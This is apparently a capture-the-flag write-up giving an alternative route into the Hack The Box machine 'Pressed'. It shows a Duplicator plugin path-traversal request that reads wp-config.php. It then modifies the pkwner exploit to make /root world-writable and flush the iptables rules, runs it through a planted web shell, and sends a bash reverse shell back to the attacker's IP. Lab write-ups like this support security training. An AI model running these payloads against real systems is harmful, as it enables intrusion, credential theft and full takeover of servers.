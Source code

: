 # Alternative way to exploit Pressed

## Local File Inclusion Vulnerability in WordPress

The aggressive output of **WPScan** shows that the [Duplicator plugin](https://de.wordpress.org/plugins/duplicator/) is enabled.

This version of the plugin has a **Local File Inclusion** vulnerability:
```
searchsploit duplicator
```
```
Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read
```

This allows us to read files on the box, if the backup file would not have been found:
```
http://pressed.htb/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../var/www/html/wp-config.php
```

## Privilege Escalation

The **Forward-Shell** is used to escalate privileges in a pseudo-shell as otherwise there is no way to gain a shell because of the firewall.

Instead of using this tool, the exploit script can be modified to change the permissions of the _/root_ directory:

Modifying _pkwner.sh_ to change permissions to _777_ of the _/root_ directory after uploading the new version via **XML-RPC**:
```
(...)
"chmod 777 /root");
exit(0);
(...)
```

Sending the request in _shell.php_ to execute the exploit script:
```
POST /shell.php

cmd=bash /var/www/html/wp-content/uploads/2022/12/test-1.jpeg
```

After sending the request, the directory of _root_ can be read by anyone:
```
drwxrwxrwx   1 root root  172 Feb  3  2022 root
```

### Getting a Reverse Shell

The exploit can also be modified to change the firewall rules by using `iptables`:
```
(...)
"iptables -A INPUT -j ACCEPT
"iptables -A OUTPUT -j ACCEPT");
exit(0);
(...)
```

Sending the request in _shell.php_ to execute the exploit script:
```
POST /shell.php

cmd=bash /var/www/html/wp-content/uploads/2022/12/test-2.jpeg
```

After sending the request, the firewall rules will allow connections and a port scan reveals that port 22 is open:
```
nmap 10.10.11.142
```
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

This can now be used to gain a reverse shell connection:
```
POST /shell.php

cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'
```

After URL-encoding the command and sending the request, the listener on my IP and port 9001 starts a reverse shell connection.
